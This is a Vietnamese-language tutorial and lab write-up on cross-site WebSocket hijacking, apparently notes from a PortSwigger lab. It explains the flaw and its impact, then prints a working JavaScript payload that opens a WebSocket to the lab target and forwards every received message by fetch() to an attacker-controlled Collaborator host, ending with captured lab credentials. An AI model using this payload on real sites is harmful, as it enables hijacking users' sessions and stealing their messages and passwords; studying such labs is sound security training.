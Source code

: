 # Cross-site WebSocket hijacking

## What is cross-site WebSocket hijacking?

Tấn công WebSocket cross-site (còn được gọi là tấn công WebSocket chéo nguồn) liên quan đến lỗ hổng làm giả yêu cầu chéo trang web (CSRF) trên bắt tay WebSocket. Lỗi này phát sinh khi yêu cầu bắt tay WebSocket chỉ dựa vào cookie HTTP để xử lý phiên và không chứa bất kỳ mã thông báo CSRF hoặc các giá trị không thể đoán trước nào.

Kẻ tấn công có thể tạo một trang web độc hại trên tên miền của chúng, thiết lập kết nối WebSocket xuyên trang web tới ứng dụng dễ bị tấn công. Ứng dụng sẽ xử lý kết nối trong bối cảnh phiên làm việc của người dùng nạn nhân với ứng dụng.

Sau đó, trang web của kẻ tấn công có thể gửi các tin nhắn tùy ý đến máy chủ thông qua kết nối và đọc nội dung của các tin nhắn được nhận lại từ máy chủ. Điều này có nghĩa là, không giống như CSRF thông thường, kẻ tấn công sẽ có được sự tương tác hai chiều với ứng dụng bị xâm phạm.

## What is the impact of cross-site WebSocket hijacking?

Một cuộc tấn công chiếm quyền điều khiển WebSocket chéo trang thành công thường sẽ cho phép kẻ tấn công:

- **Thực hiện các hành động trái phép bằng cách giả danh người dùng là nạn nhân.** Giống như CSRF thông thường, kẻ tấn công có thể gửi tin nhắn tùy ý đến ứng dụng phía máy chủ. Nếu ứng dụng sử dụng tin nhắn WebSocket do máy khách tạo ra để thực hiện bất kỳ hành động nhạy cảm nào, thì kẻ tấn công có thể tạo các tin nhắn phù hợp trên nhiều miền và kích hoạt các hành động đó. 
- **Truy xuất dữ liệu nhạy cảm mà người dùng có thể truy cập.** Không giống như CSRF thông thường, việc tấn công WebSocket chéo trang web cung cấp cho kẻ tấn công khả năng tương tác hai chiều với ứng dụng dễ bị tấn công thông qua WebSocket bị tấn công. Nếu ứng dụng sử dụng tin nhắn WebSocket do máy chủ tạo để trả về bất kỳ dữ liệu nhạy cảm nào cho người dùng, thì kẻ tấn công có thể chặn các tin nhắn đó và lấy cắp dữ liệu của người dùng nạn nhân.

## Thực hiện a cross-site WebSocket hijacking attack

Vì một cuộc tấn công chiếm đoạt WebSocket chéo trang về cơ bản là một lỗ hổng CSRF trên bắt tay WebSocket, bước đầu tiên để thực hiện một cuộc tấn công là xem xét các giao thức WebSocket mà ứng dụng thực hiện và xác định xem chúng có được bảo vệ chống lại CSRF hay không.

Về điều kiện thông thường cho các cuộc tấn công CSRF, bạn thường cần tìm một thông báo bắt tay chỉ dựa vào cookie HTTP để xử lý phiên và không sử dụng bất kỳ mã thông báo hoặc giá trị không thể đoán trước nào trong tham số yêu cầu.

Ví dụ: yêu cầu bắt tay WebSocket sau đây có thể dễ bị tấn công CSRF vì mã thông báo phiên duy nhất được truyền qua cookie:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

Note: Tiêu đề `Sec-WebSocket-Key` chứa một giá trị ngẫu nhiên để ngăn ngừa lỗi từ việc lưu trữ đệm proxy và không được sử dụng cho mục đích xác thực hoặc xử lý phiên.

Nếu yêu cầu bắt tay WebSocket dễ bị tấn công bởi CSRF, thì trang web của kẻ tấn công có thể thực hiện yêu cầu liên trang web để mở WebSocket trên trang web dễ bị tấn công. Những gì xảy ra tiếp theo trong cuộc tấn công hoàn toàn phụ thuộc vào logic của ứng dụng và cách ứng dụng sử dụng WebSockets. Cuộc tấn công có thể bao gồm:
- Gửi tin nhắn WebSocket để thực hiện các hành động trái phép thay mặt cho người dùng nạn nhân.
- Gửi tin nhắn WebSocket để truy xuất dữ liệu nhạy cảm.
- Đôi khi, chỉ cần chờ tin nhắn đến có chứa dữ liệu nhạy cảm.

---

### Ví dụ: Cross-site WebSocket hijacking

https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

Quan sát khi bắt đầu 1 đoạn chat ta sẽ gửi lên server đoạn lệnh "Ready"

![alt text](image-11.png)

Nhìn vào phần kết nối ta thấy nó không dùng CSRF nào mà chỉ dùng session để kết nối

![alt text](image-12.png)

Bật Collaborator để lắng nghe, ở server exploit ta sẽ gửi 1 đoạn kết nối WebSocket để trang victim với lệnh `Ready` và bắt các gói tin nó gửi về

Ở server exploit ta thêm đoạn js:

```js
<script>
    var ws = new WebSocket('wss://0adc008204d6c685804b62d400f5008c.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://jm931uw7tsjlp951jh28vmyylprgf63v.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![alt text](image-13.png)

Chọn `View exploit` để xem thử kết quả

![alt text](image-14.png)

Ta đã có thể bắt được đoạn json có các tin nhắn trước đó

Gửi cho victim và ta bắt được:

![alt text](image-15.png)

![alt text](image-16.png)

`carlos:nsjl49yge1jdny6y3gsx`












